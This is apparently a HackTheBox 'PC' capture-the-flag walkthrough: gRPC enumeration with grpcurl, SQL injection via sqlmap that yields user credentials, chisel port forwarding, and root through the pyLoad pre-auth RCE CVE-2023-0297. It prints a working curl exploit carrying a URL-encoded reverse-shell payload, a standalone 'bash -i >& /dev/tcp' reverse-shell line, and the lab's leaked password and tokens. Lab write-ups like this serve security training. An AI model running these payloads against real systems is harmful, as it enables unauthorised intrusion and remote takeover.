 # HackTheBox - PC

## NMAP

```bash
Nmap scan report for 10.129.19.240                     
Host is up (0.21s latency).
Not shown: 65533 filtered tcp ports (no-response)
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:         
|   3072 91bf44edea1e3224301f532cea71e5ef (RSA)
|   256 8486a6e204abdff71d456ccf395809de (ECDSA)
|_  256 1aa89572515e8e3cf180f542fd0a281c (ED25519)
50051/tcp open  unknown          
```

## PORT 50051

Connecting to this port through `telnet` or `netcat`, doesn't yield anything but `???`

<img src="https://i.imgur.com/BMLSNEy.png"/>

So resarching what runs on port 50051 shows that, gRPC uses this port which is an open source remote procedure call framework by google

<img src="https://i.imgur.com/o3nfU5j.png"/>

We can analyze the traffic through `wireshark` by sniffing packets on our interface (tun0) and changing protocol to HTTP/2

<img src="https://i.imgur.com/JBQgkal.png"/>

gRPC can be enumerated through `grpcurl`

```bash
grpcurl -plaintext 10.129.19.240:50051 list
```

<img src="https://i.imgur.com/AdXPsBb.png"/>

This listed two services, let's try listing the methods in `SimpleApp`

<img src="https://i.imgur.com/GSXeb8S.png"/>

SimpleApp service has three methods which can be checked with `describe` arguement

<img src="https://i.imgur.com/EEpsahj.png"/>

We can register and login with an account which in return provides an id 

```bash
grpcurl -plaintext -d '{"username":"arz101" , "password":"12345"}' 10.129.19.240:50051 SimpleApp/RegisterUser 

grpcurl -plaintext -d '{"username":"arz101" , "password":"12345"}' 10.129.19.240:50051 SimpleApp/LoginUser
```


<img src="https://i.imgur.com/GDvCLBK.png"/>

Now using `getInfo` will ask for a token

<img src="https://i.imgur.com/ROsqUow.png"/>

## Foothold

If we go back to login method, we do use a token if we enable verbosity with `-vv`

<img src="https://i.imgur.com/HiQulEp.png"/>

```bash
grpcurl -vv -plaintext -H "token: eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyX2lkIjoiYXJ6MTAxIiwiZXhwIjoxNjg0NjkzODY1fQ.CMWWeEN92nUfwMh8_AUGBPjHsIC7oIRTVDBZEy2qDS8" 10.129.19.240:50051 SimpleApp/getInfo
```

<img src="https://i.imgur.com/jmZ4eNA.png"/>
This gives us an error `Unexpected <class 'TypeError'>: bad argument type for built-in operation` due to we haven't specified the data, if we use `describe` to see what parameters the method accepts

<img src="https://i.imgur.com/LypYf33.png"/>

It needs the ID which we get after logging in

```bash
grpcurl -vv -plaintext -H "token: eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyX2lkIjoiYXJ6MTAxIiwiZXhwIjoxNjg0NjkzODY1fQ.CMWWeEN92nUfwMh8_AUGBPjHsIC7oIRTVDBZEy2qDS8" -d '{"id": "842"}' 10.129.19.240:50051 SimpleApp/getInfo

```

<img src="https://i.imgur.com/k8qDJqW.png"/>

But tampering/playing around with this was a little difficult, so I tried postman and grpcui which gives you GUI with which you can work with gRPC service and also intercept the requests easily

<img src="https://i.imgur.com/eksI8QX.png"/>

<img src="https://i.imgur.com/XAwU5kQ.png"/>

<img src="https://i.imgur.com/5ypgqSi.png"/>

<img src="https://i.imgur.com/jjytNag.png"/>


After identifiying that it was using some filters for sqli, we can try running `sqlmap` which found injection on `id` parameter

<img src="https://i.imgur.com/ZyxW1y5.png"/>

<img src="https://i.imgur.com/Tc2hAjK.png"/>

With these credentials, we can login as `sau` user

<img src="https://i.imgur.com/2R02n7N.png"/>

Having enumerated the SUIDs, the files which are owned sau none of them yield any path to escalation, checking the local ports, there was port 8000 open which redirects to a login page

<img src="https://i.imgur.com/bJep6gx.png"/>

<img src="https://i.imgur.com/oh5YJff.png"/>

Port forwarding with `chisel`

```bash
chisel server -p 3333 --reverse

chisel client 10.10.16.19:3333 R:localhost:8000
```

<img src="https://i.imgur.com/73nLYMT.png"/>

Now accessing the port on our browser we'll get a login page for pyLoad which is a download manager for python


<img src="https://i.imgur.com/GgFEXZF.png"/>

Trying the default creds like `admin:admin` and `pyload:pyload` didn't work, so searching for CVEs there was a pre-auth rce vulnerability (CVE-2023-0297)

<img src="https://i.imgur.com/SdNEqLy.png"/>

Using the poc we'll get a shell as the root user

```bash
curl -i -s -k -X $'POST' \
    --data-binary $'jk=pyimport%20os;os.system(\"%2Fbin%2Fbash%20%2Dc%20%27bash%20%2Di%20%3E%26%20%2Fdev%2Ftcp%2F10%2E10%2E16%2E19%2F2222%200%3E%261%27\");f=function%20f2(){};&package=xxx&crypted=AAAA&&passwords=aaaa' \
    $'http://localhost:8000/flash/addcrypted2'
```

<img src="https://i.imgur.com/fOYBuSy.png"/>

## References

- https://grpc.io/blog/wireshark/
- https://github.com/fullstorydev/grpcurl
- https://medium.com/@ibm_ptc_security/grpc-security-series-part-3-c92f3b687dd9
- https://security.snyk.io/vuln/SNYK-PYTHON-PYLOADNG-3230895
- https://security.snyk.io/vuln/SNYK-PYTHON-PYLOADNG-3230895


```
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyX2lkIjoiYXJ6MTAxIiwiZXhwIjoxNjg0Njk4MTcwfQ.mPfP5ci6uGoO0h0p8L5PlI0w48RFy4WD97G1COkbWEo
113
HereIsYourPassWord1431:sau
bash -i >& /dev/tcp/10.10.16.19/2222 0>&1
```
